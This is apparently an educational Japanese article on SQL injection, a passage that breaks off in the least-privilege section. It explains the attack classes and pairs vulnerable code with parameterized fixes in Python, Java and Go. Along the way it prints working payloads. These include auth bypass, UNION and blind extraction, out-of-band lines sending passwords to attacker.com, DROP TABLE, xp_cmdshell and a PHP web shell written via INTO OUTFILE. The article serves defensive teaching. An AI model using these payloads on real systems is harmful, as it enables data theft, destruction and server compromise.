







# SQLインジェクション — Webセキュリティ最大の脅威の原理と防御

## 1. 背景と動機

### 1.1 Webアプリケーションとデータベースの不可分な関係

現代のWebアプリケーションは、ほぼ例外なくデータベースに依存している。ユーザー情報、商品データ、取引履歴、コンテンツ——あらゆるビジネスロジックの根幹にデータベースが存在し、SQLはそのデータベースと対話するための標準言語として数十年にわたり使われ続けてきた。

Webアプリケーションの典型的な構造は、ユーザーからの入力を受け取り、それをもとにSQLクエリを構築し、データベースに問い合わせ、結果をユーザーに返す、というものである。この「ユーザー入力からSQLクエリを構築する」というプロセスに、根本的な脆弱性が潜んでいる。

### 1.2 SQLインジェクションとは何か

SQLインジェクション（SQL Injection、略称: SQLi）とは、アプリケーションがユーザー入力を適切に処理せずにSQLクエリに組み込むことで、攻撃者が意図しないSQLコマンドを実行できてしまう脆弱性である。名前の通り、攻撃者はSQL文を「注入（inject）」することで、データベースに対する不正な操作を行う。

この脆弱性は1998年にJeff Forristalが「Phrack Magazine」の記事で初めて公に文書化した。以来、四半世紀以上が経過し、防御手法は確立されているにもかかわらず、SQLインジェクションはいまだにWebアプリケーションの脆弱性ランキングの上位に位置し続けている。OWASP Top 10では長年にわたり最も危険な脆弱性の一つとして挙げられてきた（2021年版ではA03:Injectionとして3位）。

### 1.3 なぜ根絶されないのか

SQLインジェクションの原理は極めて単純であり、防御手法も明確に確立されている。それにもかかわらず根絶されない理由は複数ある。

**レガシーコードの存在**: 数十年前に書かれたコードが今も稼働しており、それらが安全でない方法でSQLを構築している。全面的なリファクタリングはコストが高く、優先度が低く見積もられがちである。

**開発者の教育不足**: セキュリティに関する教育が不十分なまま開発に携わるケースは少なくない。特に、ORM（Object-Relational Mapping）を使っていれば安全だという誤った認識が広まっていることも問題である。

**入力経路の多様化**: HTTPパラメータだけでなく、HTTPヘッダー、Cookie、JSONペイロード、ファイルアップロード、さらにはSecond-Order Injection（二次注入）のように、一度保存されたデータが後から悪用されるケースもある。すべての入力経路を網羅的に防御することは容易ではない。

## 2. 攻撃の原理

### 2.1 コードとデータの混同

SQLインジェクションの根本的な原因は、**「コード（SQL構文）」と「データ（ユーザー入力）」が同じ文字列の中に混在し、区別されないこと**にある。これはSQLインジェクションに限らず、あらゆるインジェクション攻撃（OSコマンドインジェクション、LDAPインジェクション、XSSなど）に共通する根本原理である。

以下のPythonコードは、典型的な脆弱なログイン処理を示している。

```python
# VULNERABLE: Do not use in production
def login(username, password):
    query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
    cursor.execute(query)
    return cursor.fetchone()
```

このコードは、`username` と `password` をそのままSQL文字列に埋め込んでいる。正常なケースでは、ユーザーが `alice` / `secret123` と入力した場合、以下のクエリが生成される。

```sql
SELECT * FROM users WHERE username = 'alice' AND password = 'secret123'
```

これは意図した通りの動作である。しかし、攻撃者が `username` に以下の値を入力した場合、状況は一変する。

```
' OR '1'='1' --
```

生成されるクエリは以下のようになる。

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' --' AND password = ''
```

`--` 以降はSQLコメントとして無視されるため、実質的に実行されるのは以下である。

```sql
SELECT * FROM users WHERE username = '' OR '1'='1'
```

`'1'='1'` は常に真であるため、`WHERE` 句全体が常に真となり、テーブル内のすべてのユーザーレコードが返される。最初のレコードが管理者アカウントであれば、攻撃者は管理者として認証されてしまう。

### 2.2 攻撃の仕組みを視覚化する



### 2.3 文字列結合の問題の本質

問題の本質を別の角度から説明する。SQL文をプログラム的に構築する際、開発者は以下のような構造を意図している。

```
SELECT * FROM users WHERE username = '[ここにデータが入る]' AND password = '[ここにデータが入る]'
```

シングルクォートで囲まれた部分がデータ領域であり、それ以外がコード領域である。しかし、文字列結合によるSQL構築では、ユーザー入力にシングルクォートが含まれた時点で、**データ領域からコード領域に「脱出」できてしまう**。これがインジェクションの核心である。

ユーザーが `'` を入力した時点で、SQL文のデータ領域の終端が意図せず発生し、それ以降の文字列はSQLコードとして解釈される。これは、SQLパーサーがユーザー入力の境界を知る手段がないためである。

## 3. SQLインジェクションの分類

SQLインジェクションは、攻撃者が結果を取得する方法によって大きく分類される。



### 3.1 In-Band SQLインジェクション（Classic）

In-Band SQLインジェクションは、攻撃の実行と結果の取得が同じ通信チャネル（通常はHTTPレスポンス）で行われる最も基本的な攻撃手法である。

#### Error-Based SQLインジェクション

データベースが返すエラーメッセージを利用して情報を取得する手法。エラーメッセージにテーブル名やカラム名が含まれる場合、それを手がかりにデータベース構造を解析できる。

```sql
-- Attacker input to extract database version via error message
' AND 1=CONVERT(int, (SELECT @@version)) --
```

このクエリは、`@@version`（データベースのバージョン情報を返す関数）の結果を整数に変換しようとして失敗し、エラーメッセージにバージョン情報が含まれて返される。

```
Conversion failed when converting the nvarchar value
'Microsoft SQL Server 2019 (RTM) - 15.0.2000.5' to data type int.
```

攻撃者はこのエラーメッセージから、使用しているデータベースの種類とバージョンを正確に把握できる。

#### UNION-Based SQLインジェクション

`UNION` 句を利用して、元のクエリに別のSELECT文を追加し、任意のテーブルからデータを取得する手法。

```sql
-- Original query: SELECT name, price FROM products WHERE id = [input]
-- Attacker input:
1 UNION SELECT username, password FROM users --
```

生成されるクエリ：

```sql
SELECT name, price FROM products WHERE id = 1
UNION SELECT username, password FROM users --
```

`UNION` を使用するためには、元のクエリと同じカラム数で型が互換性を持つSELECT文を構築する必要がある。そのため、攻撃者はまずカラム数を特定するステップを踏む。

```sql
-- Step 1: Determine number of columns using ORDER BY
1 ORDER BY 1 --    -- Success
1 ORDER BY 2 --    -- Success
1 ORDER BY 3 --    -- Error -> The original query has 2 columns

-- Step 2: Determine which columns are displayed
1 UNION SELECT 'test1', 'test2' --

-- Step 3: Extract data
1 UNION SELECT username, password FROM users --
```

### 3.2 Blind SQLインジェクション

アプリケーションがSQLのクエリ結果やエラーメッセージを直接表示しない場合でも、攻撃が可能な手法群がBlind SQLインジェクションである。直接的な応答が得られないため、間接的な方法で情報を推測する。

#### Boolean-Based Blind SQLインジェクション

クエリの真偽によるアプリケーションの応答の違いを利用して、1ビットずつ情報を取得する手法。例えば、IDが有効かどうかで「商品が見つかりました」と「商品が見つかりません」の二種類のレスポンスが返されるアプリケーションがあるとする。

```sql
-- Is the first character of the database name 'a'?
1 AND (SELECT SUBSTRING(database(), 1, 1)) = 'a' --

-- Is the first character of the database name 'b'?
1 AND (SELECT SUBSTRING(database(), 1, 1)) = 'b' --

-- ... repeat for each character
```

「商品が見つかりました」と表示される場合、条件は真であり、データベース名の特定の文字が推測できる。これを繰り返すことで、文字列全体を復元する。

この手法は、一文字ずつ推測する必要があるため効率が悪いように見えるが、二分探索を用いれば1文字あたり最大7〜8回のリクエストで特定できる（ASCII文字の場合）。

```sql
-- Binary search approach: Is the ASCII value of the first char > 64?
1 AND ASCII(SUBSTRING(database(), 1, 1)) > 64 --

-- If true, is it > 96?
1 AND ASCII(SUBSTRING(database(), 1, 1)) > 96 --

-- Narrow down step by step
```

#### Time-Based Blind SQLインジェクション

応答の内容に違いが見られない場合でも、応答時間の差異を利用して情報を推測できる。データベースのスリープ関数を条件付きで呼び出し、レスポンスの遅延から条件の真偽を判定する。

```sql
-- MySQL: If the first character of database name is 'a', wait 5 seconds
1 AND IF(SUBSTRING(database(), 1, 1) = 'a', SLEEP(5), 0) --

-- PostgreSQL equivalent
1 AND CASE WHEN (SUBSTRING(current_database(), 1, 1) = 'a')
    THEN pg_sleep(5) ELSE pg_sleep(0) END --

-- SQL Server equivalent
1; IF (SUBSTRING(DB_NAME(), 1, 1) = 'a') WAITFOR DELAY '0:0:5' --
```

5秒の遅延が発生すれば条件は真、即座に応答が返れば偽と判定できる。ネットワークの遅延を考慮して、十分に大きなスリープ時間を設定する必要がある。

Time-Basedは最も低速な攻撃手法だが、ほぼすべての環境で使用可能であり、検知も困難であるため、実用的な脅威である。

### 3.3 Out-of-Band SQLインジェクション

データベースサーバーから外部サーバーへのネットワーク接続を利用して情報を送信する手法。データベースがDNSリクエストやHTTPリクエストを発行できる機能を持つ場合に使用される。

```sql
-- SQL Server: Send data via DNS lookup
'; EXEC master..xp_dirtree '\\' + (SELECT TOP 1 password FROM users) + '.attacker.com\share' --

-- MySQL: Send data via DNS (requires FILE privilege)
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.attacker.com\\share'));

-- Oracle: Using UTL_HTTP
SELECT UTL_HTTP.REQUEST('http://attacker.com/' || (SELECT password FROM users WHERE ROWNUM=1)) FROM dual;
```

攻撃者は自身が管理するDNSサーバーのログを確認することで、データベースの情報を受け取る。この手法は、In-BandやBlindの手法が使えない場合のフォールバックとして利用される。

### 3.4 Second-Order SQLインジェクション（二次注入）

Second-Order SQLインジェクションは、攻撃ペイロードが入力時点では実行されず、**一度データベースに保存された後、別の処理でそのデータが使用される際に実行される**攻撃手法である。

この手法は特に危険である。なぜなら、入力時のバリデーションをすり抜け、開発者が「データベースに保存済みのデータは安全」と誤って仮定しているケースを突くからである。



この例では、ユーザー登録時にユーザー名 `admin'--` が適切にエスケープされてINSERTされる。しかし、パスワード変更処理でそのユーザー名をデータベースから読み出してSQLクエリに組み込む際、再度のエスケープが行われないため、SQLインジェクションが成立する。結果として、`admin` ユーザーのパスワードが攻撃者が指定した値に変更されてしまう。

## 4. 多言語での脆弱なコードと安全なコード

SQLインジェクションの防御の本質は、**コード（SQL構文）とデータ（ユーザー入力）を明確に分離すること**である。これを実現する最も効果的な手法がプリペアドステートメント（パラメータ化クエリ）である。

### 4.1 Python

```python
import sqlite3

# ===== VULNERABLE: String concatenation =====
def get_user_vulnerable(username):
    conn = sqlite3.connect("app.db")
    cursor = conn.cursor()
    # NEVER do this: user input is directly embedded in SQL
    query = f"SELECT * FROM users WHERE username = '{username}'"
    cursor.execute(query)
    return cursor.fetchone()

# ===== SECURE: Parameterized query =====
def get_user_secure(username):
    conn = sqlite3.connect("app.db")
    cursor = conn.cursor()
    # Placeholder (?) separates code from data
    query = "SELECT * FROM users WHERE username = ?"
    cursor.execute(query, (username,))
    return cursor.fetchone()
```

プリペアドステートメントでは、SQL文のテンプレートが先にデータベースエンジンに送られてパースされ、その後にパラメータが「データ」として別途渡される。データベースエンジンはパラメータをSQL構文として解釈しないため、どのような入力であってもインジェクションは不可能である。

### 4.2 Java（JDBC）

```java
import java.sql.*;

public class UserRepository {

    // ===== VULNERABLE: String concatenation =====
    public User getUserVulnerable(String username) throws SQLException {
        Connection conn = DriverManager.getConnection(DB_URL);
        // NEVER do this: user input is directly embedded in SQL
        String query = "SELECT * FROM users WHERE username = '" + username + "'";
        Statement stmt = conn.createStatement();
        ResultSet rs = stmt.executeQuery(query);
        // ...
        return null;
    }

    // ===== SECURE: PreparedStatement =====
    public User getUserSecure(String username) throws SQLException {
        Connection conn = DriverManager.getConnection(DB_URL);
        // Placeholder (?) separates code from data
        String query = "SELECT * FROM users WHERE username = ?";
        PreparedStatement pstmt = conn.prepareStatement(query);
        pstmt.setString(1, username);
        ResultSet rs = pstmt.executeQuery();
        // ...
        return null;
    }
}
```

Javaの `PreparedStatement` は、SQL文のコンパイルとパラメータのバインドを明確に分離する。`Statement` の代わりに `PreparedStatement` を使うことは、Javaにおける最も基本的なセキュリティプラクティスである。

### 4.3 Go

```go
package main

import (
	"database/sql"
	"fmt"
	_ "github.com/lib/pq"
)

// VULNERABLE: String formatting
func getUserVulnerable(db *sql.DB, username string) (*sql.Row, error) {
	// NEVER do this: user input is directly embedded in SQL
	query := fmt.Sprintf("SELECT * FROM users WHERE username = '%s'", username)
	row := db.QueryRow(query)
	return row, nil
}

// SECURE: Parameterized query
func getUserSecure(db *sql.DB, username string) (*sql.Row, error) {
	// Placeholder ($1) separates code from data
	query := "SELECT * FROM users WHERE username = $1"
	row := db.QueryRow(query, username)
	return row, nil
}
```

Goの `database/sql` パッケージは、プリペアドステートメントをネイティブにサポートしている。`QueryRow` や `Exec` の第二引数以降にパラメータを渡すだけで、安全なクエリが構築される。プレースホルダの記法はデータベースドライバによって異なり、PostgreSQLは `$1, $2, ...`、MySQLは `?` を使用する。

### 4.4 プリペアドステートメントの内部動作

プリペアドステートメントがなぜ安全なのか、その内部動作を理解しておくことは重要である。



文字列結合方式では、SQL文全体が一つの文字列としてデータベースに送られ、パース時にコードとデータの区別が不可能である。一方、プリペアドステートメントでは、SQL文の構造（構文木）がパラメータバインドの前に確定するため、パラメータがどのような値であっても構文の変更は起こり得ない。

## 5. 攻撃のインパクト

SQLインジェクションが成功した場合の影響は、データベースの権限設定やアプリケーションの構成によって異なるが、最悪の場合、以下のような壊滅的な被害が生じる。

### 5.1 データの窃取（Data Breach）

最も一般的な被害パターンである。攻撃者はSQLインジェクションを利用して、データベースに格納されているあらゆる情報にアクセスできる。

- ユーザーの個人情報（氏名、メールアドレス、住所、電話番号）
- 認証情報（パスワードハッシュ、セキュリティ質問の回答）
- 金融情報（クレジットカード番号、銀行口座情報）
- 営業秘密（顧客リスト、契約条件、内部文書）

一つのSQLインジェクション脆弱性から、データベース全体の内容が抜き取られる可能性がある。特にUNION-Based攻撃やOut-of-Band攻撃を組み合わせると、大量のデータを効率的に窃取できてしまう。

### 5.2 認証バイパス（Authentication Bypass）

先述のログイン処理の例のように、SQLインジェクションによって認証ロジックを迂回し、任意のユーザー（管理者を含む）としてシステムにアクセスできる。これは最も古典的かつ直接的な攻撃パターンである。

### 5.3 データの改ざん・削除（Data Modification / Destruction）

SQLインジェクションはSELECTだけでなく、INSERT、UPDATE、DELETEなどの操作にも応用できる。

```sql
-- Data modification
'; UPDATE users SET role = 'admin' WHERE username = 'attacker' --

-- Data deletion
'; DROP TABLE users --

-- Mass data deletion
'; DELETE FROM orders WHERE 1=1 --
```

`DROP TABLE` は特に致命的であり、テーブル全体が削除される。適切なバックアップがなければ、データは永久に失われる。

### 5.4 リモートコード実行（Remote Code Execution）

データベースの設定と権限によっては、SQLインジェクションからOSレベルのコマンド実行に到達できる場合がある。

```sql
-- SQL Server: Execute OS commands via xp_cmdshell
'; EXEC xp_cmdshell 'whoami' --

-- MySQL: Write a file to the web root (requires FILE privilege)
'; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php' --

-- PostgreSQL: Execute OS commands via COPY
'; COPY (SELECT '') TO PROGRAM 'id' --
```

SQL Serverの `xp_cmdshell` は特に危険であり、データベースサーバーの権限でOSコマンドを実行できる。これにより、SQLインジェクションがサーバー全体の完全な侵害につながる。MySQLの `INTO OUTFILE` を使ったWebシェルの設置も、Webサーバーとデータベースサーバーが同一マシンである場合に現実的な脅威となる。

### 5.5 インパクトのまとめ

| 影響 | 深刻度 | 概要 |
|------|--------|------|
| データ窃取 | 致命的 | 個人情報・機密情報の大量流出 |
| 認証バイパス | 高 | 管理者権限の不正取得 |
| データ改ざん | 高 | 不正なデータ操作、ビジネスロジックの破壊 |
| データ削除 | 致命的 | テーブルやデータベースの破壊 |
| リモートコード実行 | 致命的 | サーバー全体の完全な侵害 |
| サービス妨害 | 中〜高 | 重いクエリによるDoS、リソースの枯渇 |

## 6. 防御手法

### 6.1 プリペアドステートメント（パラメータ化クエリ）

**最も効果的かつ推奨される防御手法**である。前述の通り、SQL文の構造とパラメータを分離することで、ユーザー入力がSQL構文として解釈されることを根本的に防止する。

この手法の最大の利点は、**防御がアプリケーションロジックの正確さとは独立していること**である。開発者がどのような入力パターンを想定し忘れていても、プリペアドステートメントは構文レベルでインジェクションを防ぐ。

ただし、プリペアドステートメントには適用できない箇所がある。テーブル名、カラム名、ORDER BY句の方向（ASC/DESC）、LIMIT句の値など、SQL構文の一部をパラメータ化できないケースである。これらについては、ホワイトリスト検証で対処する必要がある。

```python
# Table name cannot be parameterized - use whitelist validation
ALLOWED_TABLES = {"users", "products", "orders"}

def get_records(table_name, status):
    if table_name not in ALLOWED_TABLES:
        raise ValueError(f"Invalid table name: {table_name}")

    # Table name is from whitelist (safe), status is parameterized
    query = f"SELECT * FROM {table_name} WHERE status = ?"
    cursor.execute(query, (status,))
    return cursor.fetchall()
```

### 6.2 ORMの利用と限界

ORM（Object-Relational Mapping）フレームワーク（Django ORM、SQLAlchemy、Hibernate、GORMなど）は、内部的にプリペアドステートメントを使用しているため、**通常の使い方では**SQLインジェクションを防止できる。

```python
# Django ORM - safe by default
users = User.objects.filter(username=username)

# SQLAlchemy - safe by default
users = session.query(User).filter(User.username == username).all()
```

しかし、ORMを使っていても安全でないケースが存在する。

```python
# Django: raw() with string formatting - VULNERABLE
User.objects.raw(f"SELECT * FROM users WHERE username = '{username}'")

# Django: extra() with string formatting - VULNERABLE
User.objects.extra(where=[f"username = '{username}'"])

# SQLAlchemy: text() with string formatting - VULNERABLE
session.execute(text(f"SELECT * FROM users WHERE username = '{username}'"))
```

ORMのraw SQLインターフェースを使う場合、プリペアドステートメントの保護は自動的には適用されない。ORMを使用していることに安心して、raw SQLの部分で脆弱性を作り込むケースは現実に多い。

**安全なraw SQL**の書き方：

```python
# Django: raw() with parameterized query - SAFE
User.objects.raw("SELECT * FROM users WHERE username = %s", [username])

# SQLAlchemy: text() with bind parameters - SAFE
session.execute(text("SELECT * FROM users WHERE username = :name"), {"name": username})
```

### 6.3 ストアドプロシージャ

ストアドプロシージャは、SQL文をデータベース側に事前にコンパイルして保存する仕組みである。適切に使用すれば、プリペアドステートメントと同様にSQLインジェクションを防止できる。

```sql
-- Stored procedure definition (safe)
CREATE PROCEDURE GetUser(@username NVARCHAR(50))
AS
BEGIN
    SELECT * FROM users WHERE username = @username
END
```

しかし、ストアドプロシージャ内で動的SQLを構築している場合は、依然として脆弱である。

```sql
-- Stored procedure with dynamic SQL (VULNERABLE)
CREATE PROCEDURE SearchUsers(@column NVARCHAR(50), @value NVARCHAR(100))
AS
BEGIN
    DECLARE @sql NVARCHAR(MAX)
    SET @sql = 'SELECT * FROM users WHERE ' + @column + ' = ''' + @value + ''''
    EXEC(@sql)
END
```

ストアドプロシージャはSQLインジェクション対策としてのみ評価するなら、プリペアドステートメントと大差ない。ストアドプロシージャの本来の価値は、ビジネスロジックのカプセル化やパフォーマンス最適化にある。

### 6.4 入力バリデーション

入力バリデーションは、**防御の多層化（Defense in Depth）** の一環として重要だが、SQLインジェクション対策の主要手段としては不十分である。

```python
import re

# Whitelist validation: Allow only alphanumeric characters
def validate_username(username):
    if not re.match(r'^[a-zA-Z0-9_]{3,32}$', username):
        raise ValueError("Invalid username format")
    return username

# Type validation: Ensure the input is an integer
def validate_id(user_id):
    try:
        return int(user_id)
    except ValueError:
        raise ValueError("Invalid user ID")
```

入力バリデーションの限界：

- すべての入力に対して適切なバリデーションルールを定義することは困難である。自由記述のテキストフィールド（コメント、説明文など）にはシングルクォートやセミコロンが正当に含まれ得る
- バリデーションをバイパスする巧妙なエンコーディング技法が存在する
- 開発者がバリデーションの実装を忘れる（漏れる）リスクがある

したがって、入力バリデーションはあくまで補助的な防御層であり、**プリペアドステートメントと組み合わせて使用する**のが正しい位置づけである。

### 6.5 エスケープ処理

ユーザー入力中の特殊文字（シングルクォート、バックスラッシュなど）をエスケープする手法は、歴史的には広く使われてきたが、**現在ではプリペアドステートメントの代わりとして推奨されない**。

```python
# Escaping - NOT recommended as primary defense
# Different databases require different escaping rules
def escape_string(s):
    return s.replace("'", "''")  # This is overly simplistic and insufficient
```

エスケープ処理が推奨されない理由：

- データベースごとにエスケープ規則が異なる
- 文字エンコーディングの問題によりバイパスされる可能性がある（例: GBKエンコーディングを利用した攻撃）
- 開発者が正確なエスケープ処理を実装する負担が大きい
- エスケープの漏れが一つでもあれば脆弱性が生じる

どうしてもプリペアドステートメントが使えない極めて特殊な状況でのみ、データベースが提供する公式のエスケープ関数を使用する。自前でエスケープ処理を実装してはならない。

### 6.6 最小権限の原則（Least Privilege）

データベース接続に使用するアカウントの権限を必要最小限に制限することは、SQLインジェクション攻撃の被害を軽減する重要な施策である。

```sql
-- Create application-specific database user with minimal privileges
CREATE USER 'webapp'@'localhost' IDENTIFIED BY 'strong_random_password';

-- Grant only necessary privileges
GRANT SELECT, INSERT, UPDATE ON myapp.users TO 'webapp'@'localhost';
GRANT SELECT ON myapp.products TO 'webapp'@'localhost';

-- NEVER grant these to application accounts:
-- GRANT ALL PRIVILEGES
-- GRANT FILE (prevents INTO OUTFILE attacks)
-- GRANT PROCESS, SUPER (prevents administrative operations)
-- GRANT DROP, CREATE (prevents schema modification)
```

最小権限の原則を適用することで：

